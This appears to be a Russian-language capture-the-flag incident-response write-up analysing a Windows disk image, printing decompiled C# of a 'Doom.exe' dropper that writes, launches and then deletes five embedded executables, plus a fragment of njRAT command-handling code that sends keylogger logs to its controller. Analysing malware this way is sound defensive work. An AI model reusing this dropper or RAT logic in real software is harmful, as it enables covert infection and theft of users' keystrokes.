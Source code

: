 ----

# Incident Response (3)
`Выдан образ машины windows(vmdk)`


## Doom.exe
Открываем в Ilspy и понимаем, что это программа дроппер:
```csharp=
internal class Program
{
	private static void Main(string[] args)
	{
		if (!Directory.Exists(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped"))
		{
			Directory.CreateDirectory(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped");
		}
		string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped\\";
		File.WriteAllBytes(text + "1.exe", DoomResources._1);
		File.WriteAllBytes(text + "2.exe", DoomResources._2);
		File.WriteAllBytes(text + "3.exe", DoomResources._3);
		File.WriteAllBytes(text + "4.exe", DoomResources._4);
		File.WriteAllBytes(text + "5.exe", DoomResources._5);
		Process.Start(text + "1.exe");
		Process.Start(text + "2.exe");
		Process.Start(text + "3.exe");
		Process.Start(text + "4.exe");
		Process.Start(text + "5.exe");
		Thread.Sleep(60000);
		File.Delete(text + "1.exe");
		File.Delete(text + "2.exe");
		File.Delete(text + "3.exe");
		File.Delete(text + "4.exe");
		File.Delete(text + "5.exe");
	}
}

```
т.е. он закидывает файлы в Appdata/Dropped , а потом их удаляет. Заходим в ресурсы `doom.exe`и экспортируем экзешники, которые он создает.

## Njrat
```python=
						}
						else
						{
							if (Operators.CompareString(left, "ll", false) == 0)
							{
								Njrat.Cn = false;
								return;
							}
							if (Operators.CompareString(left, "kl", false) == 0)
							{
								Njrat.Send("kl" + Njrat.Y + Njrat.ENB(ref Njrat.kq.Logs));
								return;
							}
							if (Operators.CompareString(left, "pas", false) == 0)
							{
								try
```